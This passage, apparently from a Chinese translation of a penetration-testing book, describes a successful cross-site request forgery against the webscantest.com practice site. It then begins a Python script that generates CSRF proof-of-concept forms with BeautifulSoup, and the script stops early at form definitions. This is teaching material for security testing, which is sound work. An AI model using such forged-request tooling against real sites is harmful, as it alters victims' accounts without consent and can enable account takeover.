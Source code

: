 请求伪造成功！我们已经被重定向到一个成功页面，表明我们本地表单生成的 `POST` 请求已被接受！此外，关键的是，我们可以看到我们的隐藏字段，其中包含 `nick` 输入标签的真实值，这个值被接受并原本为私密的，现在变成了 Major Mandella 的昵称。

这个例子可能仍然看起来相当无害——只是修改了用户名的一部分——但通过改变用户的表单数据来改变应用程序状态是很严重的。即使是修改用户名，也可能是盗取账户的巧妙方式——如果受影响的应用程序不允许仅使用与账户关联的电子邮件找回密码，攻击的受害者可能无法解决认证问题。

# 程序化创建 CSRF 漏洞验证代码（PoC）

与其通过手动构建 PoC 仅凭浏览 Burp 代理标签中的拦截 HTTP 请求，不如有一个脚本可以将我们需要的信息作为一系列输入（来自 CLI 参数、网页爬虫或其他来源），那就太好了。

让我们开始吧。只需一点 Python，我们就可以编写一个简短的脚本，轻松地将我们的信息格式化为 CSRF 漏洞验证代码（PoC）。

让我们先定义构建 PoC 所需的数据。我们将在设置解释器后，在新的 `csrf_poc_generator.py` 文件中开始定义这些变量：

```
#!/usr/bin/env python3

method="POST"
encoding_type="application/x-www-form-urlencoded"
action="http://webscantest.com/crosstraining/aboutyou.php"
fields = [
    {
        "type":"text",
        "name":"fname",
        "label":"fname"
    },
    {
        "type":"text",
        "name":"lname",
        "label":"lname"
    },
    {
        "type":"text",
        "name":"nick",
        "label":"nick"
    }
]
```

这种结构——为基本 `form` 标签属性定义字符串，并为需要构建的不同表单字段提供信息的包含字典的 `fields` 列表——作为起点非常简单，同时也提供了一些基本的功能。具体来说，可以添加任意数量的表单字段并添加新属性以创建新的表单对象。

现在，我们只需要一些逻辑来处理这些数据并生成必要的 HTML 标记。幸运的是，我们在第三章《准备参与攻击》中使用的 HTML 解析器——Beautiful Soup——不仅能提取我们爬取页面的 JavaScript，还能用来创建标记。

例如，这里是生成我们最外层 `html` 标签的代码，它将包裹我们的表单：

```
from bs4 import BeautifulSoup, Tag

content = BeautifulSoup("<html></html>", "html.parser")

print(content.prettify())
```
